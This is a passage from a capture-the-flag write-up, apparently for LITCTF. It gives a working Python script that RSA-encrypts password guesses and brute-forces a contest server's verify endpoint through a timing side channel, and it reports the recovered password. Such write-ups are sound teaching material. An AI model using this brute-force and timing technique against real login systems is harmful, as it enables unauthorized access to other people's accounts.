 ```python
phi = (p - 1) * (q - 1)
d = 4880753

def encryptRSA(m):
    return pow(m, e, N)

def submit(pwd):
    arr = []
    for i in range(len(pwd)):
        arr.append(encryptRSA(ord(pwd[i])))
    return ",".join(map(str, arr))

assert submit("12345678") == "8272582,17059160,20555739,5510519,9465679,18442920,18644618,3444445"

url = "http://litctf.live:31776/verify?password="
base = ""
import string
alphabet = string.ascii_letters + string.digits # password is alphanumeric, check main.js
while True:
    m = 0
    mi = 0    
    for letter in alphabet:
        password = base + letter
        password = password.ljust(6, "_")
        
        payload = submit(password)
        # print(url + payload)

        then = time.time()
        r = requests.get(url + payload, allow_redirects=False)
        # print(url + payload)
        now = time.time()

        print(password, round(now - then, 2))
        # print(now - then, i)
        # print(r.text)
        if now - then > m:
            m = now - then
            mi = letter

        # fail is r.status_code == 302
        print(r.status_code)
        if r.status_code == 200:
            print("Found:", password)
            exit()
        # print(i)
        # print()
    print(m, mi)
    base += mi
# Found: CxIj6p
```
After running this script for quite a while, we are able to get our final password: `CxIj6p`.
We can then login to the site and get our flag!
